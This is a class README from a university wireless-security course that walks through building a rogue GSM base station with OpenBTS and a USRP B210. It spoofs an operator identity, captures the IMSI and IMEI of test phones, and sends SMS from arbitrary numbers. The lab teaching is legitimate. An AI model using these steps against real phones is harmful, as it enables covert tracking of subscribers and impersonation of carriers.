 # WiSec

Welcome to the git repo for the WiSec class at EURECOM.

# Index

* [Rogue GSM base station](#RogueGSM)

## <a name="RogueGSM"></a>Rogue GSM base station

***Warning***
This is a purely technical guide.
Refer to the regulations in your country to check what you are allowed and not allowed to do.

We will use OpenBTS and a USRP B210 software defined radio to build a rogue GSM base station.
[Getting Started with OpenBTS Range Networks](http://www.openbts.org/site/wp-content/uploads/ebook/Getting_Started_with_OpenBTS_Range_Networks.pdf)
is a good reference.

We use Vagrant and VirtualBox to setup a virtual machine. This makes it easy to setup the environment and it is independent from the operating system you have. Please make sure you have installed Vagrant and VirtualBox before continuing. Refer to the official documentation and tutorials.

You will also need some test phones for the experiments.
Beware that you will collect the IMEI and IMSI of these phones.
The idea for the demo is to catch the IMEI and IMSI of the testphones, and whitesit them, so that
no other user will accidentally connect to the test network.

Connect the USRP B210 to you machine, then prepare the virtual machine, the first time this will take several minutes.
```
$ cd openbts
$ vagrant up
```

You can not connect to the virtual machine.
```
$ vagrant ssh
```

First, check the radio.
```
> uhd_find_devices
linux; GNU C++ version 5.3.1 20151219; Boost_105800; UHD_003.009.002-0-unknown

--------------------------------------------------
-- UHD Device 0
--------------------------------------------------
Device Address:
    type: b200
    name: MyB210
    serial: 3189F57
    product: B210
```
```
> cd /home/vagrant/dev/openbts/debian/openbts/OpenBTS/
> ./transceiver
linux; GNU C++ version 5.3.1 20151219; Boost_105800; UHD_003.009.002-0-unknown

Using internal frequency reference
-- Detected Device: B210
-- Loading FPGA image: /usr/share/uhd/images/usrp_b210_fpga.bin... done
-- Operating over USB 3.
-- Detecting internal GPSDO.... No GPSDO found
-- Initialize CODEC control...
-- Initialize Radio control...
-- Performing register loopback test... pass
-- Performing register loopback test... pass
-- Performing CODEC loopback test... pass
-- Performing CODEC loopback test... pass
-- Asking for clock rate 16.000000 MHz... 
-- Actually got clock rate 16.000000 MHz.
-- Performing timer loopback test... pass
-- Performing timer loopback test... pass
-- Setting master clock rate selection to 'automatic'.
-- Asking for clock rate 32.000000 MHz... 
-- Actually got clock rate 32.000000 MHz.
-- Performing timer loopback test... pass
-- Performing timer loopback test... pass
-- Asking for clock rate 26.000000 MHz... 
-- Actually got clock rate 26.000000 MHz.
-- Performing timer loopback test... pass
-- Performing timer loopback test... pass
```
Kill with Ctrl-C.
```
^CReceived shutdown signal
Shutting down transceiver...
```

From now on it will be handy to have multiple terminals.
A good way to accomplish that via ssh is to use the ```tmux``` program.
Quick tutorial:
1. ```tmux``` to start a new session.
2. ```Ctrl-b c``` to create a new terminal.
3. ```Ctrl-b n``` to move to next terminal.
4. ```Ctrl-b p``` to move to previous terminal.
4. ```Ctrl-b d``` to detach from the session.
5. ```tmux a``` to reattach.

Now, start each of the following programs in a separate terminal.
```
> cd ~/dev/subscriberRegistry/apps
> sudo ./sipauthserve
```
```
> cd ~/dev/smqueue/smqueue/
> sudo ./smqueue
```
```
> cd ~/dev/asterisk/asterisk-11.7.0/main
> sudo LD_LIBRARY_PATH=./ ./asterisk -vv
```
```
> cd ~/dev/openbts/debian/openbts/OpenBTS/
> sudo ./OpenBTS
```
```
> cd ~/dev/openbts/debian/openbts/OpenBTS/
> sudo ./OpenBTSCLI
```

Now, you can type commands in the OpenBTSCLI command line interface (OpenBTS>).

Adjust the receive gain.
2dB is a good value when the phone are close, to avoid clipping.
Incerease to 10dB if you the phone is more distant.
```
OpenBTS> rxgain 2
```

Set the transmission attenuation, e.g. 20dB.
Adjust to your needs.
```
OpenBTS> power 20
```

Setup a spoofed network identity.
You can find MCC and MNC here https://cellidfinder.com/mcc-mnc/
We chose an Italian operator that is not available in France.
```
config GSM.Identity.ShortName WIND
config GSM.Identity.MCC 222
config GSM.Identity.MNC 88 
```

Now, take a testphone and do a manual scan for the networks.
You should see a new carrier appear.
Try to connect to the network, you will get a failure, but this is enough to catch the IMSI/IMEI information.
```
OpenBTS> tmsis
IMSI            TMSI IMEI            AUTH CREATED ACCESSED TMSI_ASSIGNED
2*************7 -    3*************0 0    3s      3s       0             
```

It is now possible to add a new subscriber for this phone.
You can assing any phone number, e.g., 1111
In a new terminal:
```
> cd ~/dev/NodeManager/
> ./nmcli.py sipauthserve subscribers create "TestPhone1" IMSI2*************7 1111
```

It is also possible to allow open registration for a certain IMSI
```
OpenBTS> config Control.LUR.OpenRegistration 2*************7
```

Now your phone should connect.

You can send an SMS to the phone, from any number you want.
```
OpenBTS> sendsms 2*************7 0033666*****1 Hey you
```

If you add two phones, they can send each other messages.

Once you are done, close all the programs.

Then, halt the virtual machine.
```
$ vagrant halt
```




